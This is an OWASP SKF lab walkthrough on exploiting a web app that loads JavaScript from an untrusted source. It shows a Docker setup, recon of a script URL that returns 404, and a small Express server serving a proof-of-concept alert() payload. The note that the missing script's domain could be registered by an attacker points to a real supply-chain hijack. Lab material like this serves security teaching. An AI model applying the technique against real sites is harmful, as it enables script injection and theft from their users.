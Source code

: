 # Include Files From Untrusted Sources (JS)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-untrusted-sources
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-untrusted-sources
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

When including third-party functionality, such as a web widget, library, or other source of functionality, the software must effectively trust that functionality. Without sufficient protection mechanisms, the functionality could be malicious in nature (either by coming from an untrusted source, being spoofed, or being modified in transit from a trusted source). The functionality might also contain its own weaknesses, or grant access to additional functionality and state information that should be kept private to the base system, such as system state information, sensitive application data, or the DOM of a web application.

This might lead to many different consequences depending on the included functionality, but some examples include injection of malware, information exposure by granting excessive privileges or permissions to the untrusted functionality, DOM-based XSS vulnerabilities, stealing user's cookies, or open redirect to malware

First, let's check the application to see if there are any sources being loaded in the app that return a 404.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/1.png)

When inspecting the network tab we see that the application fails to load a JS file to the URL

```
https://localhost:8081/script-provider/javascript.js
```

_note: in a penetration test we would now see if the domain that is used to grab the js source file from is free for us to register_

## Exploitation

#### Step1

Now, in order to leverage a successfull XSS attack we need to set up our own local server on port 8081
that serves the our malicious javascript. You could achieve this in many diferent ways, let's use nodeJs this time:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname));
app.use(express.urlencoded({ extended: true }));

app.get("/:path", (req, res) => {
  res.sendFile("/script_provider/" + req.params.path);
});

const port = process.env.PORT || 8081;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

#### Step2

We ofcourse also need to set the right path where to serve the file from:

```text
./script_provider/javascript.js
```

#### Step3

The content of the JS file that we use to deliver the malicious XSS from looks no more basic than
this:

```text
alert("evil payload");
```

#### Step4

Now it is time to start our web server.

```text
npm install express
node script_provider.js
```

#### Step5

We visit the target application where we now find our 'alert' that we coded in our javascript.js file

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/2.png)

## Additional sources

{% embed url="https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion" %}
